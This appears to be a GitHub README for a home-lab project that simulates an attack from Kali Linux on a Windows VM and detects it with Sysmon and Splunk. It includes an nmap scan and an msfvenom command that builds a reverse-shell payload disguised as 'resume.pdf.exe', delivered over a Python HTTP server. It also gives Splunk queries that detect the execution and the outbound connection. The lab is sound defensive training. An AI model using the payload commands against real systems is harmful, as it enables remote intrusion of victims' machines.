







# SOC Home Lab - Attack Detection using Splunk & Sysmon

## 📌 Project Overview

This project demonstrates a simulated Security Operations Center (SOC) environment where real-world cyber attacks were executed and detected using logging and monitoring tools.

The lab was built using Kali Linux and Windows, with Sysmon for endpoint logging and Splunk for detection and analysis.

---

## 🎯 Objective

* Simulate real-world cyber attacks
* Generate logs on a Windows system
* Detect malicious activities using Splunk
* Understand attacker behavior and detection strategies

---

## 🛠️ Lab Setup

### 💻 Machines

* Kali Linux 2025.2 (Attacker)
* Windows 10 Pro (Victim)

### ⚙️ Tools Used

* Nmap (Port Scanning)
* Metasploit Framework (Attack Simulation)
* Sysmon (System Monitoring)
* Splunk (Log Analysis)

### 🌐 Network Configuration

* Platform: VirtualBox
* Network: Internal Network
* Kali IP: 192.168.56.11
* Windows IP: 192.168.56.10

---

## 💣 Attacks Performed

### 🔍 1. Port Scanning

Used Nmap to identify open ports on the target system.

```bash
nmap -sS 192.168.56.10
```

➡️ Found port 3389 (RDP) open

---

### 🧨 2. Payload Creation

Generated a reverse shell payload using msfvenom.

```bash
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=192.168.56.11 LPORT=4444 -f exe -o resume.pdf.exe
```

---

### 🎯 3. Payload Delivery

* Hosted payload using Python HTTP server:

```bash
python3 -m http.server 9999
```

* Victim accessed:

```
http://192.168.56.11:9999
```

* Downloaded malicious file: `resume.pdf.exe`



---

### 💀 4. Reverse Shell Execution

* Victim executed the payload
* Reverse connection established to attacker machine
* Meterpreter session opened in Metasploit



---

## 🔍 Detection in Splunk

### 🧠 1. Process Execution Detection

```spl
index=sysmon EventCode=1
| search Image="*resume.pdf.exe"
| table _time, Image, CommandLine, ParentImage, User
```

✔ Detects execution of malicious payload

---

### 🌐 2. Reverse Shell Detection

```spl
index=sysmon EventCode=3
| search DestinationPort=4444 OR DestinationIp=192.168.56.11
| table _time, Image, SourceIp, DestinationIp, DestinationPort
```

✔ Detects outbound connection to attacker

---

## 📸 Screenshots

### 🔍 Nmap Scan



### 🧨 Payload Creation



### 📥 Payload Delivery


### 💀 Reverse Shell Execution


### 🎯 Metasploit Handler



### 📊 Splunk Detection - Process



### 🌐 Splunk Detection - Network


---

## 🧠 Key Learnings

* Windows does not log all attack activity by default
* Sysmon provides detailed endpoint visibility
* Reverse shells generate detectable outbound traffic
* Detection engineering is critical in SOC operations

---

## 🚀 Future Improvements

* Add brute force attack detection
* Integrate Sigma rules
* Automate alerts in Splunk
* Expand to multi-machine SOC setup

---

## 👨‍💻 Author

Built independently as a hands-on cybersecurity project.
